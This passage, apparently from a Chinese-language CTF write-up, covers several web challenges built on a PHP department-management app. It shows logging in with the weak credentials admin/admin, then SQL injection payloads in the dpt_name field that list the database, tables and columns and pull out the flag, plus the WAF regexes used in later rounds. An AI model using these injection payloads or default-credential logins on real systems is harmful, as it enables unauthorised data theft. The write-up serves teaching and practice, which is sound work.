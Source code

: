 ```php
	$result=$mysqli->query($sql);
?>
```

但前提是得登录。

尝试弱口令 admin/admin 登录成功。

在`dptadd.php` 增加数据后，会在 `dpt.php` 中显示数据。

![image-20210209124713969](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210209124713969.png)

构造paylaod:

```php
dpt_name=1',sds_address =(select database())#
# 得到 sds

dpt_name=1',sds_address =(select group_concat(table_name) from information_schema.tables where table_schema=database())#
# 得到  	sds_dpt,sds_fl9g,sds_user 	
    
dpt_name=1',sds_address =(select group_concat(column_name) from information_schema.columns where table_name="sds_fl9g")#
# 得到 flag

dpt_name=1',sds_address =(select group_concat(flag) from sds_fl9g)#
```

## web304

增加了全局waf 

```php
function sds_waf($str){
	return preg_match('/[0-9]|[a-z]|-/i', $str);
}
```

但是还是可以注入。

payload:

```php
dpt_name=1',sds_address =(select group_concat(flag) from sds_flaag)#
```

## web305

多了waf:

```php
function sds_waf($str){
	if(preg_match('/\~|\`|\!|\@|\#|\$|\%|\^|\&|\*|\(|\)|\_|\+|\=|\{|\}|\[|\]|\;|\:|\'|\"|\,|\.|\?|\/|\\\|\<|\>/', $str)){
		return false;
	}else{
		return true;
	}
}
```
